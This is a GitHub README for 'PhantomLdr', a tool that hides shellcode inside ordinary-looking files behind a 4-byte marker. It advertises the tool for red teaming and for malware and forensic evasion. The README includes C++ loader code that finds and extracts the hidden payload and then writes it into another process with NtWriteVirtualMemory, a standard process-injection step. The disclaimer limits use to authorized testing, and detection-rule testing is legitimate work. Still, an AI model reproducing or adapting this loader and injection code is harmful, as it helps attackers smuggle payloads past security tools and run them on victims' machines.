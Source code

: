 # PhantomLdr

![Status](https://img.shields.io/badge/status-stable-green?style=flat-square)
![Python](https://img.shields.io/badge/python-3.x-blue?style=flat-square)

**PhantomLdr** PhantomLdr Allow you to embed shellcode into non-sensitive binary files using a custom 4-byte marker. It's designed for red teaming, offensive research, Malware or obfuscation techniques in controlled environments.

> ⚠️ **Disclaimer:** This tool is for **educational and authorized security research only**. Use it in **isolated environments** or during **authorized penetration testing engagements**. The developer assumes no responsibility for misuse.

---

## 🎯 Use Case

PhantomLdr is ideal for:

- Red Team payload staging simulations
- Malware evasion and forensic evasion research
- Detection rule testing (EDR, AV, YARA)
- Malware reverse engineering training labs

---

## ✨ Features

- Embeds arbitrary shellcode into any non-sensitive file
- Avoids tampering with sensitive/critical extensions (e.g., `.exe`, `.dll`)
- Custom 4-byte ASCII marker for locating payload in post-processing

---


## How to implement on Visual studio

```cpp
std::vector<char> extractShellcode(const char* data, size_t size, const char* marker = "Z3R0") {
	if (!marker || strlen(marker) != 4) {
		return {};
	}

	for (size_t i = 0; i < size - 8; ++i) {
		if (data[i] == marker[0] &&
			data[i + 1] == marker[1] &&
			data[i + 2] == marker[2] &&
			data[i + 3] == marker[3]) {

			uint32_t len = *(uint32_t*)&data[i + 4];

			if (i + 8 + len > size) {
				return {};
			}

			return std::vector<char>(data + i + 8, data + i + 8 + len);
		}
	}

	return {};
}

std::vector<char> buffer = extractShellcode(data, size, marker);
NtWriteVirtualMemory(pi.hProcess, remoteAddr, buffer.data(), buffer.size(), NULL);
```
